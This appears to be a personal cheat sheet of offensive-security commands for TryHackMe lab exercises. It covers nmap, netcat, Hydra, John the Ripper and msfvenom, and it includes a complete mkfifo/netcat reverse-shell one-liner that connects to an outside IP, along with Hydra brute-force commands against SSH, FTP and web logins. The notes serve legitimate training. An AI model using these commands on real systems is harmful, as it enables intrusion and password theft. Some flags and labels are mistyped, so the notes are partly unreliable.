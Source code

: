 # TryHackMe - Cheat Sheet

## Useful Links

- [Sec Lists](https://github.com/danielmiessler/SecLists)
- [Identify Hash Types](https://hashes.com/en/tools/hash_identifier)

## NMAP

### Basic Switches

- -`sT` TCP Connect Scans 
- `-sS` SYN "Half-open" Scans 
- `-Su` UDP Scans (-sU)
- `-O`  Operating System
- `-Sv` Services that are running.

### Output Types

- `-oA` Three major formats
- `-oN` Normal format
- `-oG` Grepable format

## Reverse Shells

`nc -lvnp <port-number>`

- `-l` is used to tell netcat that this will be a listener
- `-v` is used to request a verbose output
- `-n` tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.
- `-p `indicates that the port specification will follow.
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.9.59 4242 >/tmp/f`

### Bind Shells

`nc <target-ip> <chosen-port>`

### Netcat Shell Stabilisation

- Uses Python to spawn a better featured bash shell. `python -c 'import pty;pty.spawn("/bin/bash")'` 
- Give commands such as clear `export TERM=xterm` 
- Background the shell using Ctrl + Z. Back in own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

## Python3 

### Web Server

Format for a Python3 web server `sudo python3 -m http.server 80`

## Msfvenom 

Standard format for msfvenom `msfvenom -p <PAYLOAD> <OPTIONS>`

## Nessus (Vulnerability scanner)

### Basic Commands

Start Service `sudo /bin/systemctl start nessusd.service`

### Navigation & Scanning

- Which hosts are alive: host discovery
- Scan suitable for any host: Basic network scan
- Authenticate to hosts and enumerate missing update: Credentialed Patch Audit
- Scan for web applications: Web applications tests

## Hydra

### Hydra Commands

- For FTP: `hydra -l user -P passlist.txt ftp://MACHINE_IP`
- For SSH: `hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh`
  - `-l` Username
  - `-P` Use a list of passwords
  - `-t` Number of threads to use
 -  Web Forum: `hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/LOGIN_URL(Example /login):username=^USER^&password=^PASS^:F=incorrect" -V`
    - `-l` Sinlge Usnermae
    - `-P` Password List
    - `http-post-form` Type of form (post)
    - `/login url` 
    - `:username` The form field where the username is entered
    - `^USER^` Tell Hydra to use the username    
    - `:password` The form field where the password is entered
    - `^PASSWORD^` Tell Hydra to use the password
    - `-V` Verborse output for every attempt 
  - `ssh username@IP`  SSH Login 

## John the Ripper

### Basic Syntax

`john [options] [path to file]`

### Automatic Cracking

`john --wordlist=[path to wordlist] [path to file]`

### Format-Specific Cracking

`john --format=[format] --wordlist=[path to wordlist] [path to file]`

### Single Crack Mode

`john --single --format=[format] [path to file]` (Uses username to crack password)

### Passwword Protected Zip Files

- Convert zip file into a hash: `zip2john zipfile.zip > zip_hash.txt` 
- Once I have the output use: `john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt`

### Passwword Protected Rar Files

- Convert rar file into a hash: `rar2john [rar file] > [output file]` 
- Once I have the output use: `john --wordlist=/usr/share/wordlists/rockyou.txt rar_hash.txt`

### Passwword Protected RarFiles

- Convert shh2 file into a hash: `ssh2john id_rsa > id_rsa_hash.txt` 
- Once I have the output use: `john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt`





